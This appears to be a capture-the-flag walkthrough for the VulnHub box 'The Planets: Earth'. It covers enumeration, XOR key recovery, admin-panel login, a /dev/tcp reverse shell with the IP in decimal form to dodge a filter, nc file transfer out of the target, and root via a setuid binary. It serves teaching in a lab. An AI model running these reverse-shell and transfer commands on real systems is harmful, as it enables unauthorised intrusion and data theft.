

# Attack on the box "The Planets: Earth"

Target box: [click here](https://www.vulnhub.com/entry/the-planets-earth,755/)

OS: **Nix type*

File format: *.OVA*

Difficulty: *easy*

Goals: *Capture the user and root flag*

Description: 

Earth is an easy box though you will likely find it more challenging than "Mercury" in this series and on the harder side of easy.

---
### Introduction

First, we must find the IP of the target machine. In real world this is known beforehand or it can be found by an nslookup. Just *dig \<url\> A* returns the A record of the domain name. Here the machines are running in VirtualBox. Network configuration is "NAT network" for all machines (attacking machine and targets) with network CIDR set to **10.0.2.0/24**. Consequently, machine's IP is in the range of **10.0.2.0-255**. From our machine we can scan this range only for host discovery:

```
$ nmap 10.0.2.0-255 -sL | grep \(
Starting Nmap 7.80 ( https://nmap.org ) at 2022-01-27 02:42 EST
Nmap scan report for earth.local (10.0.2.7)
Nmap done: 256 IP addresses (0 hosts up) scanned in 1.70 seconds
```
-sL flag stands for Scan List. It just scans for which hosts are up for the IPs. The ""| grep \()" part is used to filter out the useless lines. If a host is up then its line while contain parentheses(right parenthesis can also do).Of course, backslash is for escaping.

As we can see, at IP 10.0.2.7 there is a host with name earth.local. This is our target. By the way, if we want to check for our IP address, because it belongs to our LAN we can do an 

```
$ ip a
```
and under the -enpxsx- we can check the *inet*. In our machine is 10.0.2.4, but in your machine should be some other IP.

Before we start, it will be a good idea to set the target's IP in a global variable. So we set it to TRG (target):

```
$ TRG=10.0.2.7
$ echo $TRG
10.0.2.7
```

Perfect. We are ready to start. As always, there are four basic "steps". Enumeration, Foothold, User access and finally root/admin access (or privileges escalation).

### Enumeration

Let's start with a basic port scan.

```
$ sudo nmap $TRG -sS
Starting Nmap 7.80 ( https://nmap.org ) at 2022-01-27 03:16 EST
Nmap scan report for earth.local (10.0.2.7)
Host is up (0.00048s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
MAC Address: 08:00:27:80:91:15 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 5.22 seconds

```

*sudo* is needed because flag -sS does a TCP SYN port scan, which needs root privileges. If you don't have root privileges(vary rare, as you usually fully own the attacking machine) you can port scan using the *-sT* flag. SYN port scan is faster though, as it does not attempt a complete TCP connection but sends raw packages(that's why it needs root privileges).

By default, 1000 ports were scanned. 3 open ports found, while 997 are filtered. This means that a firewall is running on the target machine. For these 997 filtered ports we don't know if a daemon is running at some of them or they are really closed. There are techniques to find out but better to start spending our time on the open ports first.

### Foothold

It is time to start exploring the open ports and see what other information we can get to set a foot on the target. It will be wise to forget about ssh(port 22), as we don't have any credentials. Http and https are open for as though. Let's try to access http service using our browser. We type 'http://10.0.2.7' in our favorite browser but we get a 400 error code (but request). Another way is to use *wget* or *curl* to access the $TRG ip but the result will be, of course, the same. Not a good start.

Trying the same on https port (https://10.0.2.7) we get a Fedora Webserver Test Page, as it can be seen:

 

That means that a webserver is running(expected because of the open ports) and is misconfigured. It shouldn't show any kind of data to the public. That's good news for the bad guys(us, the red team). It is reasonable to assume that at least a virtual host exists. We are going to use *nmap* again with standard NSE Scripts (*-sC* flag). We also use the *-vv* flag to get more details:

```
$ nmap -p443 10.0.2.7 -sC -vv
Starting Nmap 7.80 ( https://nmap.org ) at 2022-01-27 04:14 EST
NSE: Loaded 121 scripts for scanning.
............
```

We don't provide the output here. The output contains an SSL certificate and other info about two domain names. Let's rerun the command without *-vv* flag.

```
$ nmap -p443 10.0.2.7 -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2022-01-27 04:15 EST
Nmap scan report for earth.local (10.0.2.7)
Host is up (0.0012s latency).

PORT    STATE SERVICE
443/tcp open  https
|_http-title: Earth Secure Messaging
| ssl-cert: Subject: commonName=earth.local/stateOrProvinceName=Space
| Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.local
| Not valid before: 2021-10-12T23:26:31
|_Not valid after:  2031-10-10T23:26:31
| tls-alpn: 
|_  http/1.1

Nmap done: 1 IP address (1 host up) scanned in 1.39 seconds

```

We have two domain names, "earth.local" and "terratest.earth.local". Obviously, these are temporal domain names and DNS records do not exist for them. An SSL certificate has been taken for them, so they meant to be used in the future in public. We can be almost sure that the web server has been configured with two virtual hosts by using these domain names. Or one virtual host with a domain name and the other as an alias.
 
As there are no DNS records for these domains we can fool the browser by providing A records only for our machine. Before a DNS lookup takes place linux systems search the */etc/hosts* file. We can open it as root with an editor and add the following line:

```
10.0.2.7		earth.local	terratest.earth.local
```

Let's try again to browse the two domains. They both show the same webpage for http, while for https the subdomain (terratest.earth.local) shows a "Test site, please ignore." text message. Lets focus on http://earth.local:


By visiting the site we can see that we can create encoded messages after we provide a message and a message key. These encoded messages are persistent between sessions(we can see that if we use a different browser or clear our browser storage, so it is not a local thing). It is almost sure that a database is running. Let's try mySQL default port first.

```
$ nmap -p3306 $TRG -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2022-01-27 05:39 EST
Nmap scan report for earth.local (10.0.2.7)
Host is up (0.00082s latency).

PORT     STATE    SERVICE
3306/tcp filtered mysql

Nmap done: 1 IP address (1 host up) scanned in 0.53 seconds
```

Our guess proved correct, a mysql server is running on default port(3306). Notice the STATE, it is filtered, so it is running behind a firewall. That means that we can't access it directly. Good for the target, bad for us. We must try something else...

```
$ gobuster -u https://earth.local/ -w /usr/share/wordlists/KaliLists/dirb/common.txt -k

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : https://earth.local/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/KaliLists/dirb/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2022/01/27 23:17:10 Starting gobuster
=====================================================
/admin (Status: 301)
/cgi-bin/ (Status: 403)
=====================================================
2022/01/27 23:17:33 Finished
=====================================================

```

*-w* flag just specifies the path of the text file, which contains common words to check as filenames or dirnames. *-k* flag is to ignore SSL cert (else we'll get an error). The larger the text file, the most probable to find many files, in the expense of time. On real targets a large text file may slow down or even bring down the server, so we must be careful. Better start with common.txt, which contains the most common file/dir names and also has a small size.

We got something useful, /admin. Navigating to https://earth.local/admin we can't avoid noticing that this is an admin comman toll interface. That's great news. Unfortunately we must login, but we don't know the credentials. Hmm...

More enumeration never hurts. Lets run gobuster to the subdomain:

```
$ gobuster -u https://terratest.earth.local/ -w /usr/share/wordlists/KaliLists/dirb/common.txt -k

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : https://terratest.earth.local/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/KaliLists/dirb/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2022/01/28 01:43:29 Starting gobuster
=====================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/index.html (Status: 200)
/robots.txt (Status: 200)
=====================================================
2022/01/28 01:43:48 Finished
=====================================================
```

I know, you are already eyeing the .hta* files. But the status code for all of them is 403, which means that we don't have access. *index.html* is of no help either (we already got them in our browser before). Our final shot is the robots.txt file:

```
$ wget https://terratest.earth.local/robots.txt --no-check-certificate
```

The flag is to bypass SSL certificate check. Let's see the contents of our fresh file:

```
$ cat robots.txt
User-Agent: *
Disallow: /*.asp
Disallow: /*.aspx
Disallow: /*.bat
Disallow: /*.c
Disallow: /*.cfm
Disallow: /*.cgi
Disallow: /*.com
Disallow: /*.dll
Disallow: /*.exe
Disallow: /*.htm
Disallow: /*.html
Disallow: /*.inc
Disallow: /*.jhtml
Disallow: /*.jsa
Disallow: /*.json
Disallow: /*.jsp
Disallow: /*.log
Disallow: /*.mdb
Disallow: /*.nsf
Disallow: /*.php
Disallow: /*.phtml
Disallow: /*.pl
Disallow: /*.reg
Disallow: /*.sh
Disallow: /*.shtml
Disallow: /*.sql
Disallow: /*.txt
Disallow: /*.xml
Disallow: /testingnotes.*
```

The last line is of important to us. Unfortunately, we must guess the extension. htm, html, php and txt worth a try. Trying them we can see that *testingnotes.txt* really exists on the server:

```
$ wget https://terratest.earth.local/testingnotes.txt --no-check-certificate
```

Whoever is responsible for the security of this server is an amateur. Not only he could avoid the last entry by setting the read permissions to user only(600) but even without touching the permissions it could just ignore */testingnotes.** as _Disallow: /*.txt_ covers the */testingnotes.txt* file. It's an unexpected gift for us. Time to see the contents of the downloaded file.

```
$ cat testingnotes.txt
Testing secure messaging system notes:
*Using XOR encryption as the algorithm, should be safe as used in RSA.
*Earth has confirmed they have received our sent messages.
*testdata.txt was used to test encryption.
*terra used as username for admin portal.
Todo:
*How do we send our monthly keys to Earth securely? Or should we change keys weekly?
*Need to test different key lengths to protect against bruteforce. How long should the key be?
*Need to improve the interface of the messaging interface and the admin panel, it's currently very basic.
```

**VERY** useful. Let's see the notes one by one:

- Using XOR encryption as the algorithm, should be safe as used in RSA.

Laughing in undergraduate CS. XOR is completely reversible and you can extract the "key" if you have the input and the output. Completely irrelevant for RSA. Also, the author of the notes seems that does not know anything about symmetric or asymmetric cryptography.

- Earth has confirmed they have received our sent messages.

Hard to believe, if they have received they would have changed the encryption scheme.

- testdata.txt was used to test encryption.

Thanks for the info!

- terra used as username for admin portal.

Another very useful information.


About their todo list, we again see that they don't know anything about cryptography. They need some basic lessons! Hopefully, we are going to provide them one. About the interface, yes it's very basic but it can do our job. Thanks in advance!

We can download testdata.txt and see what's inside:

```
$ wget https://terratest.earth.local/testdata.txt --no-check-certificate
```

Success.

```
$ cat testdata.txt
According to radiometric dating estimation and other evidence, Earth formed over 4.5 billion years ago. Within the first billion years of Earth's history, life appeared in the oceans and began to affect Earth's atmosphere and surface, leading to the proliferation of anaerobic and, later, aerobic organisms. Some geological evidence indicates that life may have arisen as early as 4.1 billion years ago.
```

Ok, they used this text with a message key to produce an encrypt message. From the website we can see that the encrypted message is "2402111b1a...80a0e5a". Fiddling a bit with the form we see that this is really a simple XOR schema. As *(A xor A)=0* for example, Setting the message and message key both to the string "abc" we get an output of "000000". We observe that each string is converted to hex byte by byte and xored. The output is in hex. Whey don't know the key, **K**, but we know that $$msg $\veebar$ key = output$$. Consequently, $$(msg $\veebar$  msg) $\veebar$ key = msg $\veebar$ output => 0 $\veebar$ key = msg $\veebar$ output => key= msg $\veebar$ output$$

So, to find the key we must XOR the message with the output. We know the message, which is the content of *testdata.txt* and the encrypted message (output) form the website("2402111b1a...80a0e5a"). We first convert the message from ASCII to hex and the xor it with output. Finally, we convert the xored result to ASCII. This task can be easily carried out. We are going to use python3, but any interpreted language or bash can do the job well. Another solution is to use online help from websites, for example [rapidtables.com](https://www.rapidtables.com/convert/number/)

Let's see the python script:

```
#!/usr/bin/python3

import sys

def main():
    if (len(sys.argv)!=3):
        print('Correct syntax is getKey <message> <output>')
        return

    msg=sys.argv[1]
    out=sys.argv[2]

    key=''    
    for i in range(len(msg)):
        op1=ord(msg[i])
        op2=int(out[2*i:2*i+2], 16)
        result=chr((op1^op2))
        key=key+result

    print('')    
    print(key)
    return

main()
```

By running it, we get the following

```
$ python3 getKey.py "According to radiometric dating estimation and other evidence, Earth formed over 4.5 billion years ago. Within the first billion years of Earth's history, life appeared in the oceans and began to affect Earth's atmosphere and surface, leading to the proliferation of anaerobic and, later, aerobic organisms. Some geological evidence indicates that life may have arisen as early as 4.1 billion years ago." "2402111b1a0705070a41000a431a000a0e0a0f04104601164d050f070c0f15540d1018000000000c0c06410f0901420e105c0d074d04181a01041c170d4f4c2c0c13000d430e0e1c0a0006410b420d074d55404645031b18040a03074d181104111b410f000a4c41335d1c1d040f4e070d04521201111f1d4d031d090f010e00471c07001647481a0b412b1217151a531b4304001e151b171a4441020e030741054418100c130b1745081c541c0b0949020211040d1b410f090142030153091b4d150153040714110b174c2c0c13000d441b410f13080d12145c0d0708410f1d014101011a050d0a084d540906090507090242150b141c1d08411e010a0d1b120d110d1d040e1a450c0e410f090407130b5601164d00001749411e151c061e454d0011170c0a080d470a1006055a010600124053360e1f1148040906010e130c00090d4e02130b05015a0b104d0800170c0213000d104c1d050000450f01070b47080318445c090308410f010c12171a48021f49080006091a48001d47514c50445601190108011d451817151a104c080a0e5a"

earthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimatechangebad4humansearthclimat

```


We can see that the message key is replicated from the string *earthclimatechangebad4humans* until it matches the message length.

Human beings have brains that are lazy in many ways. Memorizing is one of them. People prefer to use a single password for all services they want to access. For admin access, it's worth a try to use as password the above string. Message key can be though as a "password" by some, as it is used as a secret key (key for encryption/decryption in XOR, which is a crude symmetric scheme). We already know the username, it is *terra*,as mentioned in the  testingnotes.txt file . We go to the [login page](https://earth.local/admin/login) and try the credentials

```
terra : earthclimatechangebad4humans
```

We are in!

### Escalation to user

It's time for play now. Our first job is to see what count of account is this, which OS the server is running plus any other useful information we can get. By starting

```
whoami
Command output: apache
```

```
id
Command output: uid=48(apache) gid=48(apache) groups=48(apache) 
```

So the account that runs the admin tool is apache itself. Nice, apache sometimes can run scripts with root privileges. Also, OS machine is *nix (unix type). Indeed:

```
uname -a
Command output: Linux earth 5.14.9-200.fc34.x86_64 #1 SMP Thu Sep 30 11:55:35 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

```
cat /etc/os-release
CLI command:
Command output: NAME=Fedora VERSION="34 (Server Edition)" ID=fedora VERSION_ID=34 VERSION_CODENAME="" PLATFORM_ID="platform:f34" PRETTY_NAME="Fedora 34 (Server Edition)" ANSI_COLOR="0;38;2;60;110;180" LOGO=fedora-logo-icon CPE_NAME="cpe:/o:fedoraproject:fedora:34" HOME_URL="https://fedoraproject.org/" DOCUMENTATION_URL="https://docs.fedoraproject.org/en-US/fedora/f34/system-administrators-guide/" SUPPORT_URL="https://fedoraproject.org/wiki/Communicating_and_getting_help" BUG_REPORT_URL="https://bugzilla.redhat.com/" REDHAT_BUGZILLA_PRODUCT="Fedora" REDHAT_BUGZILLA_PRODUCT_VERSION=34 REDHAT_SUPPORT_PRODUCT="Fedora" REDHAT_SUPPORT_PRODUCT_VERSION=34 PRIVACY_POLICY_URL="https://fedoraproject.org/wiki/Legal:PrivacyPolicy" VARIANT="Server Edition" VARIANT_ID=server 
```

A linux system, Fedora distro. 

```
ls /
Command output: bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var 
```

Classical linux HFS. Let as see what users exist in the server.

```
ls -l /home
Command output: total 0 drwx------. 4 earth earth 141 Oct 13 00:23 earth 
```

So there is a user with nickname "earth". His home directory has correct permissions (as expected), so we can't access anything in it.

Apache surely has access to the public html directories. Let's try it.

```
ls -a /var/www/
Command output: . .. cgi-bin html 
```

```
ls -a /var/www/cgi-bin
Command output: . .. 
```

```
ls -a /var/www/html
Command output: . .. terratest.earth.local 
```

```
ls -a /var/www/html/terratest.earth.local
Command output: . .. index.html robots.txt testdata.txt testingnotes.txt 
```

cgi-bin directory is, unfortunately, empty. The host dir contains files that we have already downloaded and seen. No surprises and no new info.

So what know? We must be honest here. This is the most difficult point. In real world, when someone looks for escalation to root or even user account he does not know if this is possible. The reason is simple. Linux machines are security oriented (always have been). Without a misconfiguration or some other security pitfall it  is not possible for escalation to happen. This is especially true for servers that care about security. So an attacker can search forever without progress. That does not mean that in real world unix type machines are invulnerable. Many of these are, it is just too difficult to be exploited, or simpler the attacker does not know if a vulnerability exists in the system. Which is very disheartening. This is the reason why persistence and patience are virtues for cybersecurity operations.

Our target does not belong to this category. It is setup that way to contain at least one weak point, which waits to be exploited. So we can be encouraged by this and move on.

The next step is to get a "normal" bash shell to work. The admin tool (web interface) restricts us. So we need a reverse shell. We are going to anchor (connect) to our machine by initiating the connection from the target machine. This is very common and the reason is that many machines use firewalls which have inbound rules but not outbound rules, making a reverse shell opening possible. 

Our first step is to "open" a port. That means to make a port listening and also be sure that there is no firewall blocking this port on our attacking machine. This port is better be greater than 1024, so no root privileges are needed. Of course we can use any port that is not in use, and because we own our machine we have root access, but for security reasons it is better not to use root to open a port (you never know what can happen). Let's peek port 23456. On our machine we execute:

```
$ nc -nvl -p 23456
Listening on [any] 23456 ...
```

Flags explanation:

- n: Do not resolve names (bypass DNS resolve)
- v: Verbose output
- l: Listen
- p: Port number

Now, on target machine, we try on admin tool at https://earth.local/admin/

```
sh -i >& /dev/tcp/10.0.2.4/23456 0>&1
Command output:
```

Nothing happened. Disappointing. A possible reason is that the tool has some basic build in security, detecting an IP format and rejecting it if this is the case. It is worth trying to convert the IP format by presenting it without dots. We have two options here, converting "10.0.2.4" to decimal format (by the way, this IP is the attacking machine's IP) or we can convert it to base 64 as a payload. Let's try the former. We can use an online tool for conversion, but, as geeks it will be better to write our own script. Right? Right.

Conversion is easy, we just write and save the following script:

```
$ cat > ipConverter.sh
#!/bin/bash

ip_to_decimal () {
    local a b c d IP=$@
    IFS=.
    read -r a b c d <<< "$IP"
    printf '%d\n' "$((a * 256 ** 3 + b * 256 ** 2 + c * 256 + d))"
}

ip_to_decimal "$@"
^D
$ chmod 700 ipConverter.sh
$./ipConverter.sh 10.0.2.4
167772676
```

Cool. We try again:

```
sh -i >& /dev/tcp/167772676/23456 0>&1
Command output:
```

And on our machine we see this:

```
nc -nvl -p 23456
listening on [any] 23456 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.7] 44426
sh: cannot set terminal process group (830): Inappropriate ioctl for device
sh: no job control in this shell
sh-5.1$ whoami
whoami
apache python3 -c 'import pty;pty.spawn("/bin/bash")'
sh-5.1$
```

It works! We can now use the bash from our own machine. The shell and terminal are very basic though. It is a good idea  to somewhat improve it.


```
sh-5.1$ python3 -c 'import pty;pty.spawn("/bin/bash")'
bash-5.1$
echo $TERM
dumb
```

We have a pseudo-terminal now(which is dumb).

As we don't have a hint about how to get user access (we just know the username, which should be earth because it is the dir name in */home/*) we can try to escalate directly to root. Attackers often  forget that getting superuser access automatically grants them access to any user account. Of course the most common case is to get user access first and use this access level to escalate to root. In our situation we already have access to an account (apache) and we don't have a clue how to get access to the earth user account. It is more logical to try escalating directly to root; if we hit a dead end then we can come back to try again getting user account. If we get root access we save time to get user account access.

### Escalation to root

We have reached the hardest part. Our first try is to search all files in the system and see if any file has the UID or GUID set(SUID/SGID).

```
bash-5.1$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/at
/usr/bin/sudo
/usr/bin/reset_root
/usr/sbin/grub2-set-bootflag
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
```

All these files have the UID set. This means that when executed the linux system executes them as the **owner** of the file and not the account that executes them. For example, when running **sudo** command, it runs as root and not as the user that runs it. From all the above, on file catches our eye: 
```
/usr/bin/reset_root
```

This is a non-standard command. Maybe it is able to reset the root password ? Of course, to be able to do that it must run as root. But to whom this file belongs ?

```
bash-5.1$ ls -l /usr/bin/reset_root
ls -l /usr/bin/reset_root
-rwsr-xr-x. 1 root root 24552 Oct 12 22:18 /usr/bin/reset_root
```

It belongs to root. Perfect. Let's run it.

```
bash-5.1$ /usr/bin/reset_root
/usr/bin/reset_root
CHECKING IF RESET TRIGGERS PRESENT...
RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
```

Failed. We somewhat expected this, we knew that things couldn't be that easy. Let's check what kind of file it is. We ''ll be lucky if it is a script file.


```
bash-5.1$ file /usr/bin/reset_root
file /usr/bin/reset_root
/usr/bin/reset_root: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=4851fddf6958d92a893f3d8042d04270d8d31c23, for GNU/Linux 3.2.0, not stripped
```


Bad luck. It is a binary file. We know that because of the ELF format. This means that we must reverse engineer it just to know what it does exactly. Not an easy job at all.

But wait a minute. the file is not stripped, which means that it contains debug information, symbols and many more. Using *strings* command we can get more info.

```
bash-5.1$ strings /usr/bin/reset_root
strings /usr/bin/reset_root
/lib64/ld-linux-x86-64.so.2
setuid
puts
system
access
__libc_start_main
libc.so.6
GLIBC_2.2.5
__gmon_start__
H=@@@
paleblueH
]\UH
credentiH
als rootH
:theEartH
hisflat
[]A\A]A^A_
CHECKING IF RESET TRIGGERS PRESENT...
RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth
/usr/bin/echo 'root:Earth' | /usr/sbin/chpasswd
RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
;*3$"
GCC: (GNU) 11.1.1 20210531 (Red Hat 11.1.1-3)
...
...
``` 

Very interesting. The binary file executes library calls (puts,system,access). We can also see ASCII strings that maybe printed on condition, like "RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth". **/usr/bin/echo 'root:Earth' | /usr/sbin/chpasswd** is even more revealing, is it shows that password is set to "Earth". We must find what goes wrong and fix it to get this result.

*ltrace* can be used here. This command traces the library calls, so it can hopefully enlighten us of how the program works.

```
bash-5.1$ ltrace /usr/bin/reset_root                            
ltrace /usr/bin/reset_root
bash: ltrace: command not found
```

Ups! ltrace isn't installed in the system. And we don't have root privileges to install it in the system. Well, not a big deal. We can copy the file and analyze it on our machine. But how to copy? The easiest way is probably to just put it in the public html dir and download it. Let's copy it:

```
cp /usr/bin/reset_root /var/www/html/
cp /usr/bin/reset_root /var/www/html/
cp: cannot create regular file '/var/www/html/reset_root': Permission denied
```

Well, we don't have write permissions to the public folder. Why not use nc instead? Actually, this is better. We just need to open one more port on our machine for copying. So, on the machien that we own:

```
$ nc -nvl -p 23457 > reset_root
listening on [any] 23457 ...
```

and on target machine:

```
bash-5.1$ nc 10.0.2.4 23457 < /usr/bin/reset_root                                                                                                                       
nc 10.0.2.4 23457 < /usr/bin/reset_root
```

On our machine we see that:

```
$ nc -nvl -p 23457 > reset_root
listening on [any] 23457 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.7] 40304
$
```

Everything have gone smoothly:

```
$ ls -l reset_root
-rw-r--r-- 1 half half 24552 Mar  1 06:43 reset_root
$ file reset_root 
reset_root: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=4851fddf6958d92a893f3d8042d04270d8d31c23, for GNU/Linux 3.2.0, not stripped
```


What we have done is to redirect the output of the file using netcat to a file and not to our terminal. Let's run ltrace on it:

```
$ ltrace ./reset_root
bash: ltrace: command not found
```

I don't have ltrace installed yet, so I am going to install it. This is distro depended. For my machine, because it is Debian, I install the ltrace pacjage and try again:

```
sudo apt-get update && sudo apt-get install ltrace
```

After installation I try again.

```
$ which ltrace
/usr/bin/ltrace
$ $ chmod 700 ./reset_root
$ ltrace ./reset_root
puts("CHECKING IF RESET TRIGGERS PRESE"...CHECKING IF RESET TRIGGERS PRESENT...
)                                                                          = 38
access("/dev/shm/kHgTFI5G", 0)                                                                                       = -1
access("/dev/shm/Zw7bV9U5", 0)                                                                                       = -1
access("/tmp/kcM0Wewe", 0)                                                                                           = -1
puts("RESET FAILED, ALL TRIGGERS ARE N"...RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
)                                                                          = 44
+++ exited (status 0) +++
```

I checked if ltrace was successfully installed on my machine, made the ELF file executable and finally run ltrace. The result is what we want. We know that the program executes access in three files and expects to return no error(0). access() is a kernel system call function. We can get more info by using the man page:

```
$ man 2 access
ACCESS(2)                                                                       Linux Programmer's Manual                                                                       ACCESS(2)

NAME
       access, faccessat, faccessat2 - check user's permissions for a file
...
...
DESCRIPTION
       access() checks whether the calling process can access the file pathname.  If pathname is a symbolic link, it is dereferenced.
...
...
```

If we are able to create this files then we may bypass the checking. So, back on our target machine we execute:

```
bash-5.1$ touch /dev/shm/kHgTFI5G
touch /dev/shm/kHgTFI5G
bash-5.1$ touch /dev/shm/Zw7bV9U5
touch /dev/shm/Zw7bV9U5
bash-5.1$ touch /tmp/kcM0Wewe
touch /tmp/kcM0Wewe
bash-5.1$ ls /dev/shm/kHgTFI5G               
ls /dev/shm/kHgTFI5G
/dev/shm/kHgTFI5G
bash-5.1$ 
```

Everything gone as planned. Now comes the moment of truth.

```
bash-5.1$ /usr/bin/reset_root
/usr/bin/reset_root
CHECKING IF RESET TRIGGERS PRESENT...
RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth
bash-5.1$ su root
su root
Password: Earth

[root@earth home]# whoami
whoami
root
[root@earth home]# id
id
uid=0(root) gid=0(root) groups=0(root)
[root@earth home]# 
```

It worked! We own the machine now.

```
[root@earth home]# cd
cd
[root@earth ~]# ls
ls
anaconda-ks.cfg  root_flag.txt
[root@earth ~]# cat root_flag.txt
cat root_flag.txt

              _-o#&&*''''?d:>b\_
          _o/"`''  '',, dMF9MMMMMHo_
       .o&#'        `"MbHMMMMMMMMMMMHo.
     .o"" '         vodM*$&&HMMMMMMMMMM?.
    ,'              $M&ood,~'`(&##MMMMMMH\
   /               ,MMMMMMM#b?#bobMMMMHMMML
  &              ?MMMMMMMMMMMMMMMMM7MMM$R*Hk
 ?$.            :MMMMMMMMMMMMMMMMMMM/HMMM|`*L
|               |MMMMMMMMMMMMMMMMMMMMbMH'   T,
$H#:            `*MMMMMMMMMMMMMMMMMMMMb#}'  `?
]MMH#             ""*""""*#MMMMMMMMMMMMM'    -
MMMMMb_                   |MMMMMMMMMMMP'     :
HMMMMMMMHo                 `MMMMMMMMMT       .
?MMMMMMMMP                  9MMMMMMMM}       -
-?MMMMMMM                  |MMMMMMMMM?,d-    '
 :|MMMMMM-                 `MMMMMMMT .M|.   :
  .9MMM[                    &MMMMM*' `'    .
   :9MMk                    `MMM#"        -
     &M}                     `          .-
      `&.                             .
        `~,   .                     ./
            . _                  .-
              '`--._,dd###pp=""'

Congratulations on completing Earth!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_b0da9554d29db2117b02aa8b66ec492e]
[root@earth ~]#
```

The root flag is **b0da9554d29db2117b02aa8b66ec492e**

### Back to user flag

Now we can go to user directory to get the user flag.

```
[root@earth ~]# cd /home
cd /home
[root@earth home]# ls
ls
earth
[root@earth home]# cd earth
cd earth
[root@earth earth]# ls
ls
[root@earth earth]# ls -a
ls -a
.   .bash_history  .bash_profile  .cache    .local
..  .bash_logout   .bashrc        .lesshst  .vimrc
```

What is this? It seems there is no flag in the user home directory. Strange. There should be somewhere else. We can search all files by name. The root flag has a filename of *root_flag.txt* Probably user flag will have a filename of the same format, so it should be *user_flag.txt*, *earth_flag.txt* or similar. Lets search for filenames containing *_flag* :

```
..  .bash_logout   .bashrc        .lesshst  .vimrc
[root@earth earth]# find / -name '_flag'
find / -name '_flag'
[root@earth earth]# find / -name '*_flag*'
find / -name '*_flag*'
/proc/sys/kernel/acpi_video_flags
/proc/sys/net/ipv4/fib_notify_on_flag_change
/proc/sys/net/ipv6/fib_notify_on_flag_change
/sys/kernel/tracing/events/xfs/xfs_reflink_set_inode_flag
/sys/kernel/tracing/events/xfs/xfs_reflink_unset_inode_flag
/sys/kernel/tracing/events/xfs/xfs_reflink_set_inode_flag_error
/sys/kernel/tracing/events/power/pm_qos_update_flags
/sys/kernel/debug/tracing/events/xfs/xfs_reflink_set_inode_flag
/sys/kernel/debug/tracing/events/xfs/xfs_reflink_unset_inode_flag
/sys/kernel/debug/tracing/events/xfs/xfs_reflink_set_inode_flag_error
/sys/kernel/debug/tracing/events/power/pm_qos_update_flags
/sys/module/scsi_mod/parameters/default_dev_flags
/root/root_flag.txt
/var/earth_web/user_flag.txt
/usr/include/linux/tty_flags.h
/usr/include/bits/ss_flags.h
/usr/local/lib/python3.9/site-packages/django/contrib/admin/migrations/0003_logentry_add_action_flag_choices.py
